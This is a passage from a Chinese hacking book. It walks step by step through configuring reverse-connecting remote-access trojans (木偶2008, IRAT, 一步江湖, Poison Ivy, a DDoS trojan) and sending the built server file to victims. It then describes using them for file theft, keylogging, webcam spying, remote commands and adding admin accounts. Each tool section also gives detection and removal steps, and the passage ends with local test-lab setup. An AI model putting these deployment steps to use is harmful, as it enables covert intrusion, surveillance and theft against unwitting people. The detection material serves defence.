在获得了我们的外网 IP 地址后，就可以把刚才的动态域名解析到这个 IP 地址上。单击页面左侧已经注册的动态域名“xiaolong1212.3322.org”，然后在“IP 地址”后面填写我们的外网 IP 地址，如图81。


图81

最后单击“确定”按钮，现在我们的动态域名就和输入的 IP 地址绑定到一起了。现在 PING 这个动态域名，得到的 IP 地址就是 59.173.209.187。

之所以要把这个 IP 地址绑定到域名上，是因为每次我们通过 ADSL 上网时，ISP 都会重新分配一个 IP 地址给我们，这样就会造成木马因为找不到我们新的 IP 地址而无法连接。所以这里把动态变化的 IP 地址绑定到一个固定的域名上（xiaolong1212.3322.org），我们的木马服务端只要 PING 这个域名就可以得到变化的 IP 地址，也就实现了畅通连接。

- 2、服务端配置

在将动态域名解析到了我们的外网 IP 地址后，就可以开始木偶2008远程控制软件的服务端配置了。单击木偶2008主界面中的“配置服务端”按钮，在弹出的“配置服务端”窗口中输入刚才的动态域名：xiaolong1212.3322.org，其他默认即可（其中“注入设置”默认的是“conime”进程，也就是输入法进程，“启动方式”为“ActiveX”启动），如图82。


图82

在配置完成后，单击“生成”按钮，就会在木偶2008的目录下自动生成一个名为 server.exe 的服务端文件，如图83，这个也就是木马文件。我们只需要把这个文件发送给对方让其运行，就可以通过木偶2008来控制他的电脑了。


图83

要实现控制端接受木马服务端的连接，就要打开一个端口监听。因为刚才配置的木马服务端是 60000 反弹端口，所以这里就要监听 60000 端口。可以看到，我们在监听 60000 端口后，服务端马上就开始了连接，现在就可以控制连接的主机了，如图84。


图84

- 3、控制选项
  - （1）系统相关

木偶2008提供了很多系统控制选项，在这里我们可以获得被控制电脑的系统信息、窗口信息、进程信息、服务信息等等，同时还可以进行 CMD 命令操作。

在主界面中选择一个主机，然后按鼠标右键，在弹出的菜单中选择“系统相关”，进入“系统相关”控制窗口。在其中的“系统信息”页按鼠标右键进行刷新，就可以看到对方电脑的系统信息了，如图85。

我们再选择其中的“服务查看”，按鼠标右键刷新后就可以看到对方开放的服务了，如图86。如果看到对方开放了3389终端服务，我们可以在 CMD 下添加一个管理员用户，这样就可以 3389 远程登录了。

再来看看“DOS命令”页，这里有一个模拟的 CMD 命令提示符界面，在输入框中输入要远程执行的命令后单击“发送”按钮，命令就会发送到被控制端。被控制端在执行完毕命令后会把执行的情况显示到这里的 CMD 窗口中，如图87。


图85


图86


图87

- （2）文件管理

木偶2008远程控制软件同时提供了强大的文件管理和文件搜索功能，在分区后面选择一个磁盘，然后就可以看到这个磁盘下面的目录和文件信息了，如图88。在这里我们可以上传下载文件，还可以在服务端删除和新建文件。


图88

- （3）木偶命令

另外，该软件还为我们提供了很方便的集群操作功能，比如让所有上线的服务端同时执行一个广播命令。这里支持的广播命令很丰富，比如有刷网站流量、升级服务端等，如图89，读者可以自己进行发掘。


图89

- （4）截屏功能

木偶还提供了截屏功能，它支持黑白和彩色两种截取方式，如图90。黑白图像因为文件体积小，所以在网络中传输速度快，对于网速不好的用户推荐使用；彩色图像文件要大一点，所以传输的速度可能要慢一点，不过图像质量要好很多。


图90

- （5）注册表操作

最后，木偶还提供了功能强大的注册表模拟功能，在这里我们可以方便地对受控用户的注册表进行操作。使用方法为：选择要控制的计算机，然后按鼠标右键选择“注册表”，弹出“远程注册表”窗口，在其中我们可以添加、删除和修改项目和键值，如图91。


图91

在木偶2008中还有很多功能，这里就期待读者朋友在自己的使用中去挖掘和开发了。同时，在本文开头详细介绍了如何通过 3322 动态域名来实现 IP 地址绑定到动态域名的操作，相信通过这些详细的笔触，小菜朋友们一定对反弹远程控制软件有了深刻的了解。

##### 二、IRat

IRAT 是一款非常优秀的反弹木马，它的闪光点体现在强大的批量下载功能、稳健的上线连接和几乎毫无延迟的屏幕捕捉技术（使用 IRAT 进行屏幕捕捉时，系统几乎没有延迟，这是因为作者使用到了隔行扫描技术，让屏幕数据量减少到最小，从而达到减少网络数据传输和读写的目的）。

打开 IRAT 之后，可以单击“配置服务端”按钮来对服务端进行配置和生成，其中可以勾选“安装完毕后删除”和“设置文件属性为隐藏”等选项，如图92。


图92

单击“上线选项”，这里可以填写你的公网 IP 地址或者转向域名，同时它还支持 FTP 上线方式，只要把一个含有你 IP 地址和端口的 IP.TXT 文件上传到你的 WEB 服务器上即可，如图93。


图93

此时，可以单击“测试”按钮来对 IP 地址进行测试，看看 IP 地址连接是否成功，如图94。


图94

一切设置妥当后就可以单击“配置服务端”窗口中的“生成”按钮，然后把这个生成的服务端文件发送给受害者，只要他一运行，他的电脑就会在 IRAT 的控制界面中出现了，如图95。


图95

现在选择上线主机，然后单击“远程管理”按钮，在这里可以对文件进行管理。IRAT 的文件下载功能非常出色，可以下载整个目录，如图96。


图96

它的默认下载路径是本机的“C:\Documents and Settings\Administrator\桌面\Download”，也就是说，你从木马被控端下载的文件，默认是被保存到桌面的 Download 目录下的，如图97。


图97

接着单击“远程管理”里的“系统信息”，可以选择右侧的“系统信息”按钮查看对方主机的系统信息，比如计算机配置、操作系统类型等，如图98。


图98

接着再来到“进程管理”，可以单击“刷新”按钮查看对方系统当前内存中运行的进程信息。同时，可以选择一个进程，然后单击右侧的“结束进程”按钮来杀掉指定进程，如图99。


图99

再看看“服务管理”，这里可以单击“刷新”按钮查看对方系统运行的服务信息，同时可以选择一个指定的服务，然后按鼠标右键，在弹出的菜单中进行关闭、开启等操作，如图100。


图100

最后说说“远程注册表”，在这里可以编辑远程主机的注册表信息。注册表的操作非常方便，和操作本机注册表几乎一样，如图101。


图101

现在回到主界面，按“视频监控”按钮，就会弹出一个视频监控的窗口。如果对方安装了摄像头，就可以通过这里打开对方的摄像头，并且进行视频捕获（打开对方的视频进行查看是一种不道德的行为，希望读者不要做类似违法违德之事），如图102。


图102

单击主界面的“字符终端”，会弹出一个类似命令提示符的窗口，在这里就可以对对方主机进行一些 CMD 命令操作了，如图103。

同时，IRAT 还具备“远程桌面”管理功能，它的远程桌面功能非常出色，在操作过程中几乎没有网络延迟。

上面介绍了 IRAT 的使用方法，也让我们对 IRAT 的运行机理有了足够的了解，现在就来给出具体的、有针对性的防御和查杀方法。


图103

打开 WSYSCHECK 这款内核级别的检测工具，来到“服务管理”页面，可以看到有一个红色显示的服务，如图104。


图104

同时，如果安装了 360 安全卫士的电脑用户，在 IRAT 服务端被装进系统时会有提示，如图105。


图105

一旦发现以上情况，几乎就可以断定你的系统中了 IRAT 木马，此时，可以使用 360 安全卫士对系统进行木马查杀，如图106。在经过 360 安全卫士扫描之后，结果如图107。


图106


图107

此时，可以勾选此木马文件，然后单击“立即查杀”按钮，这样就可以使用 360 安全卫士来清理木马了。同时，使用 360 安全卫士的“清理恶评插件”功能也可以检测出此款木马软件，如图108。


图108

清理方法也很简单，勾选木马文件，然后单击“立即清理”按钮即可对木马进行查杀！

##### 三、一步江湖

一步江湖木马又叫 Evilotus，它的功能包括：文件管理、CMDSHELL、进程管理、服务管理、注册表管理、窗口管理、远程屏幕高速查看与操作，并且提供了高质量可调颜色的远程视频查看、实时键盘记录（完美支持中文）、系统用户管理、命令广播、操作被控端关机/重启/注销用户、下载运行/打开网址等功能。

打开一步江湖，来到“配置被控端”页面，输入反弹 IP 和反弹端口，设置好连接密码即可完成配置，如图109。生成的服务端默认是在一步江湖控制端的当前目录下，如图110。


图109


图110

接着把这个生成的服务端程序发送给受害者，只要他一运行，那么在一步江湖的控制端中就会看到主机上线了，如图111。


图111

现在，就可以来到“远程管理”页面对对方的主机开始各项操作了。比如可以进行很方便的远程文件上传、下载、删除、重命名操作等，如图112。同时，一步江湖对命令提示符也有很好的支持，如图113。


图112


图113

我们选择这其中的“注册表”页面，就可以对远程计算机的注册表进行各项操作了，如图114。


图114

选择“屏幕”页面，可以对远程主机的屏幕进行捕获，如图115，并且只要勾选了“鼠标控制”与“键盘控制”就可以控制远程主机的鼠标和键盘操作。


图115

同时，一步江湖也提供了“键盘记录”功能，这些功能在免费版的灰鸽子等反弹木马中是不被提供的，如图116。


图116

来到“系统”页面，在这里有很丰富的操作选项，比如可以执行下载运行、打开网址等，如图117。

上面介绍了一步江湖的功能，那么如何实现对一步江湖的查杀呢？安装了 360 安全卫士的读者朋友在系统中有一步江湖木马时，会弹出一个警告窗口，如图118。

如果出现此窗口，大家就要注意了，因为你的系统已经被一步江湖服务端感染了。没有安装 360 安全卫士的朋友可以使用其他免费工具进行检测，比如瑞星卡卡。

不过在本次使用瑞星卡卡检测木马时，没有报告什么异常，但那个 IE 进程其实就是一步江湖的服务进程！因为笔者在使用卡卡进行检测之前，已经关闭了所有的 IE 窗口，但是在卡卡中还是显示了 IE 进程，这说明该进程绝对是非法的！同时，IE 一般都是访问远程 WEB 服务器的 80 端口，但是本 IE 进程访问的却是 3600 端口，所以可以断定这个就是一步江湖的服务进程，如图119。


图117


图118


图119

## 第三章 木马黑客之终极无间

使用瑞星卡卡的“启动项管理”功能，可以看到有一个安全级别为“未知”、服务名称为“FREEDOM”的服务。一般来说，碰到这样的未知服务就要注意了，如图120。


图120

使用瑞星卡卡的“服务管理”功能时，同样可以看到一个未知的服务，并且显示出了该服务的路径，如图121。


图121

同样，一旦发现自己的系统不对劲，可以使用著名的 SNIPESWORD 软件，它的启动程序查看功能很实用。运行该软件后，单击右侧的“子键数据最后写入时间”列，找到时间最靠近现在的程序，可以看到一个陌生的文件，显示为 FREEDOM.EXE。其实这个程序就是一步江湖的服务端程序，如图122。


图122

而且，使用 SNIPESWORD 查看活动进程，可以看到还有一个 IE 进程，而事实上笔者已经事先关闭了 IE 窗口。同时，这个 IE 进程访问的远程网络端口不是 80，而是 3600，如图123。


图123

此时，在这个陌生的 IE 进程上面按鼠标右键，选择“监视选中进程的网络通讯”，如图124。


图124

在弹出的监视窗口中，可以看到这个 IE 进程居然不断地在和外界通讯！很明显是一个木马进程，如图125。


图125

> **小知识**
>
> **SnipeSword（狙剑）**  
> 一款强大的安全反黑工具，包括自启动项（包括隐藏的驱动和服务）、进程管理、SSDT、Shadow-SSDT、FSD 的检测与恢复等等。其自带系统监视功能，可提供恶意软件对文件及注册表的修改信息，方便手工查杀木马。软件虽然强悍，但易用性较差，当其他反黑工具失效时，推荐试试。

经过上面的介绍，读者朋友应该知道如何查看自己的系统是否中一步江湖木马了。那么接下来该如何进行有效的查杀呢？

首先还是使用内核级别进程管理工具 WSYSCHECK，进入它的“服务管理”页面，在其中有一个名为 FREEDOM 的服务被显示为可疑的红色。直接选中这个服务，按鼠标右键，在弹出的菜单中选择“删除选中的服务与文件”，如图126。


图126

这样，就删除了一步江湖的服务启动和木马文件了。同时，对工具杀毒比较热衷的朋友可以选择使用瑞星杀毒软件下载版（免费版）来对一步江湖木马进行查杀，如图127。


图127

### 四、毒葛（POISON IVY）

毒葛是国外的一款木马，其最显著的特征就是服务端使用汇编开发，因而生成的服务端文件体积特别小，这样就对我们挂马使用提供了很多的方便。

打开毒葛，选择“文件”下的“新建服务”，开始配置服务端，如图128。此时会弹出一个对话框，要求输入名称，如图129。


图128


图129

输入完毕之后来到一个反弹端口和反弹域名设置页面，输入反弹 IP 和端口即可，如图130。单击“NEXT”按钮，进入启动方式配置页面，这里可以选择注册表启动、ACTIVEX 启动等方法，如图131。


图130


图131

单击“NEXT”按钮之后，来到服务端隐藏设置和自我保护设置页面，可以勾选“保护服务端”选项，并且选择“键盘记录”选项。这样，就可以查看对方的键盘记录信息了，如图132。


图132

继续单击“NEXT”按钮，来到生成服务端程序的最后一步了，单击“生成”按钮即可生成一个服务端，如图133。在生成的过程中，会在下面的文本框中显示生成的具体流程，如图134。


图133


图134

现在查看下这个生成的服务端文件，居然只有 10KB，和一个下载者的体积几乎相当，不得不佩服软件作者的编程功底！如图135。


图135

在结束上面的配置之后，毒鸦会自动进入一个监听端口设置页面，在其中输入刚才设置的反弹端口 3460，然后单击“开始”按钮进行监听，如图136。


图136

不一会儿，当对方运行了我们的服务端程序之后，其主机就会显示在毒鸦的控制端中了。此时我们就可以选择该主机，然后按鼠标右键，在弹出的菜单中可以执行一些简单的操作，如图137。


图137

双击该主机，则可进入到系统的控制页面。在这里可以查看对方主机的文件列表，以及对文件进行上传、下载、删除、重命名等操作，如图138。


图138

同时，选择左侧的“注册表”选项，则可以对远程计算机的注册表进行编辑，如图139。对于其他的进程操作、服务操作、CMD 命令提示等功能，和之前介绍的木马基本相同，这里就不重复介绍了，如图140。同样，这款木马也提供了免费的键盘记录功能，如图141。


图139


图140


图141

在中了毒蔓之后如何查杀呢？当然，对于一般的新手，推荐使用 360 安全卫士，但是居然没有查杀出来！看来 360 安全卫士对国外的木马支持得并不太好，呵呵，如图142。


图142

还是用我们的 WSYSCHECK 吧！运行工具，选择“安全检查”下的“文件搜索”，可以看到搜索出来一个陌生的文件，如图143。


图143

现在，即可使用一款免费的工具“WINDOWS 清理助手”，来扫描系统中存在的木马，如图144。这款工具的功能非常不错，对大多数木马都能够很好地发现和清理，如图145。


图144


图145

### 3.2.5 DDOS 类型木马

现在 DDOS 软件也发展成了 C/S 模式，而且是反弹型的 C/S 模式。比如由教主开发的蚯蚓 DOS，就是一款带有 DDOS 功能的反弹木马，如图146。

单击主界面上的“新服务器端”按钮，弹出“服务器配置”窗口。在其中的反弹域名或 IP 处输入反弹 IP 或者域名，然后在“反弹端口”处填写 2008，“服务名”保持默认即可，如图147。

此时单击“生成”，即可在同目录下生成一个服务端文件。然后单击主界面上的“系统设置”按钮，在弹出的“系统设置”窗口中修改监听“端口”为 2008，然后单击“应用”按钮。保存设置，如图148。


图146


图147

图148

接着单击主界面上的“自动上线”按钮，马上提示“开始监听端口 2008”，如图149。


图149

这样，只要对方一旦运行了我们配置的服务端程序之后，其主机就会在我们的控制端程序中显示出来，如图150。


图150

选择目标主机，然后单击“屏幕监控”即可查看对方计算机的屏幕，如图151。同时，还可以对远程计算机的文件进行操作，如图152。


图151


图152

上面谈及了这个蜥蜴 DOS 反弹木马的使用，现在来介绍如何对它进行查杀。首先打开 WSYSCHECK 这款工具，可以看到一个 D.O.S.EXE 进程，并且被 WSYSCHECK 显示为红色。选择这个进程，按鼠标右键，选择“结束进程并删除文件”，即可把这个反弹的 DOS 木马清除干净，如图153。


图153

### 3.3 木马防御技巧概述

#### 3.3.1 下载者的战争

现在的木马往往都结合了下载者和网页木马的功能，使用一个下载者就可以下载数量众多的木马，让人防不胜防。而谈到下载者，知道它的读者一定会脸色骤变！因为下载者虽然体积较小，但是它的功能却是把少则几个、多则几十个盗号木马程序往我们的电脑上下载安装，非常可怕！

现在就给大家介绍一款 KENDY 编写的“下载者监视器”，它能够对下载者调用的 API 函数进行监控。在编程中这招叫做 API HOOK 技术，也就是监视程序调用的 API 函数，然后进行后期处理。

首先打开下载者监视器，选择“开始监视”，可以看到在监视日志中已经给出监视成功的提示，如图154。现在只要我们的电脑运行了一个下载者程序，“下载者监视器”马上就会拦截到！如图155。


从图155中可以看到下载者要下载的网络文件地址和本地保存运行的路径。熟悉的用户可以顺藤摸瓜，去看看这个网络文件到底是什么。

就算下载者一时得逞，下载了一堆盗号木马到我们的电脑上，我们还是有方法来对付这些被下载者下载运行的木马程序。

大家都知道，现在的盗号木马一般就是首先对键盘进行记录操作，然后发送记录到黑客的指定邮箱。那如果能够把木马发信的操作扼杀在摇篮中，一定可以保护好自己的账户安全。

这里要给读者介绍的工具，就是能够防御键盘记录器和邮件发送的小鬼当差。它是由灰鸽子工作室开发制作的，并且功能十分强大，可以监视连接网络和键盘的进程！

运行小鬼当差，其界面如图156。我们这里使用一款发信程序（读者可以使用任何发信客户端软件，比如 OUTLOOK、FOXMAIL 等来进行模拟测试），填写好各项设置信息后，单击“发送邮件”按钮，如图157。


图157

可以看到，发信软件访问网络的操作马上被小鬼当差软件拦截住了，如图158。


图158

这样，只要以后开启此款软件，就算下载者下载并且运行了木马，由于盗号木马无法把记录到的数据和信息发送到指定的盗号者邮箱中，也就从侧面阻止了下载者和盗号木马的卑劣行径！

#### 3.3.2 木马查杀技巧综述

系统中了木马，如何探查出来呢？正所谓，连是否中了木马都不知道，那还谈什么杀马防毒呢？所以本节就来简单介绍下木马的探查和杀马防毒技术。

首先打开 WSYSCHECK 这款进程查看工具，尤其关注其中使用红色标注的进程，并且着重查看 EXPLORER.EXE 进程中是否有可疑的模块信息。我们可以看到，EXPLORER.EXE 进程中都是一些正常的模块，包含有迅雷、360 等等的监视模块，如图159。


图159

如果系统被感染了 DLL 病毒或者木马，那么使用 WSYSCHECK 进行查看的时候，可以看到很多陌生的模块信息。如果出现这些信息，那么就要马上警觉了，此时就不要登录任何账户。这时就得使用 WSYSCHECK 的模块卸载功能卸载这些模块，同时还可以使用它删除病毒模块，如图160。


图160

同时，还可以时不时使用 WSYSCHECK 查看本机的服务，如图161。如果看到一些陌生的可疑服务，也要提高警惕，马上对系统进行杀马查毒。另外，也可以使用 WSYSCHECK 的服务和文件删除功能，对可疑的服务和文件进行删除。


图161

现在有的病毒为了隐藏自身，使用了 ROOTKIT 技术，说直白点就是修改了 SSDT 链表，实现无文件、无进程、无端口。如果在 WSYSCHECK 中有显示为红色的 SSDT 函数，就要保持警觉了。

如果碰到 SSDT 被修改的情况，可以使用 WSYSCHECK 的 SSDT 链表恢复功能恢复 SSDT 链表，然后对木马进行查杀，如图162。


图162

上面介绍的是一般手工查杀的流程，其实在本节前面的木马介绍章节已经有了谈及，这里就不过多重复介绍了。手工查杀能够提高我们对于病毒防御的操作能力，但是这种方式比较枯燥，也浪费时间和精力。此时就可以请出我们的工具来替代手工的重复劳动，毕竟计算机就是用来替代人工劳动的！

比较推荐的病毒木马查杀工具有 360 安全卫士、WINDOWS 清理助手等等，它们都是免费提供的，而且查杀效果非常理想，可以将两者配合使用，这样就可以使你的计算机安全从此更上一层楼！由于这两款工具在前面的章节中都有所介绍，在这里就不重复叙述了。

计算机安全和病毒木马是一个相辅相成的对立面，既然我们无法杜绝病毒和木马，那么就只有提高自身的计算机安全知识。所谓知己知彼，百战不殆！所以本章在前面还介绍了各种病毒木马被种植到我们系统时的情形，这样大家在以后的病毒木马反击战中就能手到擒来，顺水推舟，“笑傲江湖”了！

## 第四章 职业黑客之网络穿梭

现在的网站，基本都是动态网页的前台加上数据库后台的形式。这样的结构在带给网页可交互性的同时，也给网站的安全性带来了隐忧。如果黑客通过某种技术得到了数据库文件，那么他们很可能就会直接拥有站点的前台或者后台权限。本章中会给大家介绍数据库的攻防战，通过揭示网站的脆弱性，来提高网络管理员和站长们的安全意识和防黑大战能力。


### 4.1 安全测试之环境搭建篇

所谓磨刀不误砍柴工，首先来介绍如何搭建 ASP 服务和 PHP 服务环境，并且讲解如何安装虚拟机软件，实现在本机虚拟出“另一台电脑”，这样以后我们就可以方便地在本机测试各种漏洞了。

### 4.1.1 ASP 服务器环境搭建

对于 ASP 服务的安装，一般都是使用 IIS。但是由于 IIS 对一般的读者而言过于繁杂，这里推荐使用小旋风 ASPWEB 服务器来实现 ASP 服务的安装。

双击小旋风 ASPWEB 服务器安装程序，弹出安装向导，直接单击“下一步”按钮即可，如图1。


图1

程序会自动被安装到“C:\Program Files\小旋风 AspWebServer”目录中，我们这里保持默认设置即可，如图2。


图2

这样就实现了安装。在双击桌面快捷方式启动服务器时，可能会弹出一个端口被占用的提示（有可能是你的系统安装了其他软件，占用了 80 端口），如图3。

## 第四章　职业黑客之网络穿梭

此时来到目录“C:\Program Files\小旋风AspWebServer”中，找到 **MAIN.BOX** 这个文件，如图4。使用记事本打开 **MAIN.BOX** 文件，并且修改其中默认的 **80** 端口为 **8888** 端口，如图5。


```vb
Sub OnServiceStart()
    Shell.Service.SetTimer 100
    Set httpd = CreateObject("netbox.HttpServer")

    If httpd.Create("", 8888) = 0 Then
        Set host = httpd.AddHost("", "\\wwwroot")
        host.EnableWrite = false
        host.EnableScript = true
        host.AddDefault "default.asp"
        host.AddDefault "default.htm"
        host.AddDefault "default.html"
    End If
End Sub
```

图5

修改完毕再保存，然后再次运行小旋风WEB服务器软件，Windows防火墙发出安装警报，直接单击“解除阻止”按钮对该程序放行，如图6。

此时打开IE浏览器，在地址栏中输入“**http://127.0.0.1:8888/**”，即可访问到网站的首页文件了，如图7。

现在，就来教大家如何安装一款著名的ASP论坛——动网论坛。首先下载动网论坛的安装程序，解压之后得到一个DVBBS文件夹，把该文件夹中所有的文件全部复制到“`C:\Program Files\小旋风AspWebServer\wwwroot`”目录中，如图8。WWWROOT目录就是WEB服务的根目录，放到此目录下面的所有WEB文件都可以被浏览者通过浏览器访问到。

此时打开IE浏览器，在地址栏中输入“`http://127.0.0.1:8888/dvbbs/`”，即可成功访问动网论坛，如图9。

我们在论坛进行登录，这时输入动网论坛默认的管理员账户密码：admin、admin888，即可以管理员身份登录论坛前台。之后，会出现一个“管理”链接，单击该链接后会自动来到后台登录页面，我们再次输入管理员账户密码：admin、admin888和附加码之后即可进入网站后台，如图10。

登录成功之后，自动转到论坛后台管理页面，也就是“`http://127.0.0.1:8888/dvbbs/Admin/index.asp`”，如图11。

在这里，你可以设置论坛的板块、论坛注册用户的管理权限、论坛的基本信息等等。

#### 4.1.2 PHP服务器环境搭建

ASP服务安装起来相对比较简单，而PHP服务的安装则稍显繁琐，这里笔者推荐使用一款名为PHPWind Wamp的程序，下载地址为 **http://down.chinaz.com/soft/23622.htm**，如图12。

> **小知识**
>
> PHPWind Wamp 3.0是一个快速架设Web环境的软件集成包（包括最新版的PHPWind 6.3.2论坛系统），其优点在于安装简单，真正做到任何人都可以轻松架设论坛及环境；并且高效，因为PHPWind Wamp 3.0已经自动配置和优化了相关环境；同时它比较安全，因为PHPWind Wamp 3.0采用最新的PHPWIND论坛程序，集合目前最新的PHP、Apache、MySQL版本，作者还对此进行了优化和配置，最大程度地提高了用户使用论坛程序的安全性和高效性，你无需任何复杂操作，就能轻松实现当站长的梦想。

现在，先来介绍PHPWind Wamp 3.0的安装，主要流程如下：

- 1. 下载PHPWind Wamp 3.0软件包；
- 2. 解压缩PHPWind Wamp 3.0软件包至任意位置；
- 3. 执行`.exe`文件，根据提示进行安装；
- 4. 相关账户说明（安装完后及时修改论坛和数据库密码）：论坛创始人的用户名为`admin`，密码为`admin`；MySQL数据库的用户名为`root`，密码为`phpwind.net`。

##### 一、安装设置PHPWind Wamp 3.0

在下载回PHPWind Wamp 3.0的软件包后，将其中的文件解压到任意目录，然后双击执行安装文件（在安装前首先确保没有其他软件占用80 Web服务端口）。这时弹出安装向导，直接单击“继续”按钮，如图13。

一路单击“继续”按钮即可进行自动安装，非常简单。其中会要求设置安装目录，按照默认的“C:\USR”即可，如图14。

安装完毕后初次启动PHP服务，Windows防火墙会弹出安全警报，直接单击“解除阻止”放行，如图15。这样，就已经完成了安装，完全傻瓜式的操作。

现在，在IE浏览器的地址栏中输入 `http://localhost/phpwind6/index.php` 即可访问PHPWIND论坛了，如图16。

其中，管理员的用户名为`admin`，密码为`admin`，输入账户密码之后即可登录论坛对前台进行管理了。

注意：如果默认的80端口被占用，在PHP服务器安装完毕之后需要进行修改。来到`C:\usr\local\apache2\conf`目录中，用记事本打开`httpd.conf`这个Apache配置文件，然后使用查找功能找到默认的80端口的位置，如图17。

修改默认的端口为没有被占用的其他端口，我这里修改为`8888`，如图18，然后保存文件即可。

##### 二、其他PHP程序的安装及MySQL设置

上面介绍了如何安装PHP服务环境和简单的设置服务端口，并且实现了通过PHPWind Wamp安装包对PHPWIND这款PHP论坛程序的安装。

那么，如何安装其他PHP程序呢？这里就来介绍一款安全系数非常高的PHP博客程序SA-BLOG。首先下载SA-BLOG程序压缩包，然后把所有文件解压到任意目录，如图19。

接着把解压后的所有文件全部上传到`C:\usr\www`目录中，其中WWW就是PHP服务的根目录，如图20。

现在打开浏览器，访问 `http://localhost/sablog/install/install.php` 开始安装，如图21。

单击“下一步”按钮之后，来到设置数据库页面，这里要求我们输入服务器和数据库的各项信息，如图22。

其中，服务器地址输入“`localhost`”即可，因为MySQL数据库服务器安装在本地。但是，如何得到数据库名呢？可以打开 `C:\usr\local\mysql5\bin` 目录，新建一个 `CMD.BAT` 文件，内容为 `CMD.EXE`，如图23。

运行这个CMD.BAT，弹出一个命令提示符窗口，输入“`mysql -uroot -pphpwind.net`”进行MySQL管理。然后，输入“`show databases;`”命令（注意后面有分号），得到存在的数据库名称，如图24，可以看到有四个默认的数据库，显示如下：

```sql
mysql> show databases;
```

| Database |
|---|
| information_schema |
| mysql |
| phpwind |
| test |

4 rows in set (0.25 sec)

通过命令查看，知道数据库的名称后，就可以在数据库名称那里输入了。我输入的是“mysql”，数据库用户名和密码分别为：root和phpwind.net，如图25。

单击“下一步”按钮之后，要求我们设置管理员的账户和密码，如图26。

再次单击“下一步”按钮之后，出现检查信息合法性页面，如图27。

继续单击“下一步”按钮，此时开始建表，并且提示创建成功，如图28。

单击页面中的“点击这里进入博客”，但是提示我们“设置缓存成功，请刷新”，如图29。按下F5键刷新页面，此时提示“缓存成功创建，再次刷新”，如图30，我们继续按下F5键进行刷新。

现在，我们终于成功地进入了博客首页，如图31。点击页面右侧的“登录”，输入网站的管理员账户和密码以及验证码后，再点“确定”就可以登录成功，如图32。

在登录成功后，可以单击“管理”链接，如图33。此时，提示要求删除安装目录INSTALL，否则无法进入管理目录，如图34。

现在来到SABLOG的安装目录“C:\usr\www\sablog”，找到INSTALL目录，删除或者重命名即可，如图35。

现在刷新页面，成功进入到了管理后台登录页面，输入管理员后台登录密码admin888即可，如图36。

现在就成功登录博客管理后台了，在这里可以进行文章管理、用户管理和系统设置等等，如图37。

#### 4.1.3 虚拟机安装初探

虚拟机，见词知意，就是通过软件虚拟出一台计算机，本文就是讲解如何通过虚拟出一台计算机来达到入侵环境搭建的。

##### 一、虚拟机的安装

要搭建虚拟机，首先就要下载相关软件，这里推荐使用VMWARE，读者朋友可以在如下地址进行下载：“http://www.gougou.com/search?search=vmware&restype=-1&id=10000000&ty=0&pattern=0”，如图38。

同时，在下载完毕VMWARE之后，还要下载操作系统才行。我这里选择下载WINDOWS 2000，因为它是一款充满了漏洞的服务器系统，可以作为我们以后测试使用。下载地址为：“http://www.gougou.com/search?search=windows%202000&id=0”，如图39。

下载完毕之后，就可以开始VMWARE的安装了。直接双击执行安装文件，如图40，单击“NEXT”按钮即可。

此时要求我们选择安装类型，选择“Typical”（经典）安装类型即可，如图41。

单击“NEXT”后，要求我们选择安装目录，默认安装到C盘的相关目录下，这里没有必要修改，直接单击“NEXT”按钮即可，如图42。

接着VMWARE要求选择快捷方式的创建位置，按照默认勾选的位置即可，如图43。单击“NEXT”后，VMWARE安装程序开始复制安装文件到系统之中，如图44。

此时要求我们输入使用该软件用户的相关资料，包括用户名、公司和注册码。填写完毕后单击“Enter”按钮，如图45。最后，提示安装完毕，单击“FINISH”按钮完成安装，如图46。

在单击“FINISH”按钮之后，会要求我们重新启动电脑才能完成安装，此时单击“YES”按钮重新启动电脑即可，如图47。

电脑重新启动之后，可以看到桌面上已经有VMWARE的快捷方式了，如图48、图49。

此时双击这个快捷方式，弹出一个声明确认，选择“YES, I ACCEPT THE ITEMS IN THE LICENSE ASSIGNMENT”即可，如图49。

最后，单击“OK”按钮完成VMWARE的安装。现在来到“网络邻居”中，可以看到本地的LAN局域网连接中多出了两个VMWARE的连接，其中一个是虚拟机的LAN局域网连接，一个是真实机（也就是本机）的网络连接，如图50。

##### 二、虚拟机的设置

在完成VMWARE软件的安装之后，我们必须先配置出一台虚拟机，也就是一台在硬盘上虚拟出的电脑，然后在这个虚拟出的电脑里安装上操作系统。

打开VMWARE，依次单击“FILE”→“NEW”→“VIRTUAL MACHINE”，如图51。

此时弹出虚拟机安装向导，单击“下一步”按钮即可，如图52。此时要求选择安装类型，选择“TYPICAL”类型即可，如图53。

此时要求我们选择一个操作系统的类型，我打算安装WINDOWS 2000操作系统，所以这里选择WINDOWS 2000 SERVER，如图54。

单击“下一步”后要求我们输入保存操作系统的磁盘目录，我这里选择的是默认设置，如图55。

单击“下一步”按钮，出现网络类型选择页面，选择默认的网桥连接即可，如图56。

单击“下一步”按钮后就开始配置信息了，此时软件要求我们填写需要分配给这台虚拟机的硬盘大小，我这里填写8.0，单位是GB，如图57。

单击“完成”按钮，虚拟机创建成功，单击“CLOSE”按钮完成虚拟机的设置，如图58。

## 第四章　职业黑客之网络穿梭


图55


图56


图57


图58

现在我们已经把一个虚拟机生成在本机电脑硬盘中了，接下来对它进行一系列的配置。双击“CD-ROM”选项，如图59。


图59


图60

在弹出的“CD-ROM”光驱选项中，勾选“USE ISO IMAGE”选项，意思就是通过 ISO 镜像文件来安装操作系统，如图60。

接着单击“BROWSE”（浏览）按钮，在弹出的窗口中选择需要读取的镜像文件。我们要安装操作系统，自然选择 WINDOWS 2000 操作系统的镜像文件，如图61。


图61

选择好文件后返回 VMWARE 主界面，单击工具栏上的绿色三角形按钮就可以开始启动虚拟机，进行 WINDOWS 2000 操作系统的安装了。安装时可能会弹出如图62的提示，意思是没有找到软驱，我们单击“NO”按钮即可。


图62

如果觉得每次启动虚拟机都弹出这个窗口比较扰人，可以在相应虚拟机标签页上按鼠标右键，选择“SETTINGS”，如图63。


图63

进入设置后，选中“FLOPPY”（软驱），然后单击“REMOVE”按钮即可，如图64。接着单击“OK”返回主界面，再次单击工具栏的绿色三角形按钮开始启动虚拟机进行操作系统的安装。


图64

##### 三、安装操作系统

安装操作系统大家应该都会吧？在启动虚拟机后，它会自动寻找有引导文件的盘，找到后就会自动运行，开始安装操作系统，如图65。


现在我们进入了安装程序，按回车键开始系统的全新安装，如图66。这时显示用户许可协议，按 F8 键表示同意协议，如图67。


接着我们需要对安装系统的磁盘进行分区，如图68。此时按下 C 键就是创建磁盘分区，询问创建磁盘分区的大小。由于此时“NUM LOCK”键是关闭的，无法输入数字，所以要按一下“NUM LOCK”键，然后输入 4000，表示 C 盘分区为 4000MB，即 4G，如图69。

